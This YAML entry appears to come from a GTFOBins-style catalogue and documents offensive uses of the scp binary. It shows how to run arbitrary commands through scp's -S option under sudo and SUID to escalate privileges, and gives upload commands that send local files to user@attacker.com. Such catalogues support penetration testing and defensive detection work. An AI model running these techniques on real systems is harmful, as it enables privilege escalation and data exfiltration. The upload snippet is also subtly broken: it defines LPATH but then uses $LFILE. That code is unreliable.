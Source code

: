 ```yaml
---
functions:
  exec-non-interactive:
    - code: |
        TF=$(mktemp)
        CMD="touch /tmp/unrestricted"
        echo "$CMD" > "$TF"
        chmod +x "$TF"
        scp -S $TF x y:
  sudo-enabled:
    - code: |
        TF=$(mktemp)
        CMD="touch /tmp/unrestricted"
        echo "$CMD" > "$TF"
        chmod +x "$TF"
        sudo scp -S $TF x y:
  suid-limited:
    - code: |
        TF=$(mktemp)
        CMD="touch /tmp/unrestricted"
        echo "$CMD" > "$TF"
        chmod +x "$TF"
        ./scp -S $TF a b:
  upload:
    - description: Send local file to a SSH server.
      code: |
        RPATH=user@attacker.com:~/where_to_save
        LPATH=file_to_send
        scp $LFILE $RPATH
  download:
    - description: Fetch a remote file from a SSH server.
      code: |
        RPATH=user@attacker.com:~/file_to_get
        LFILE=where_to_save
        scp $RPATH $LFILE
---
```

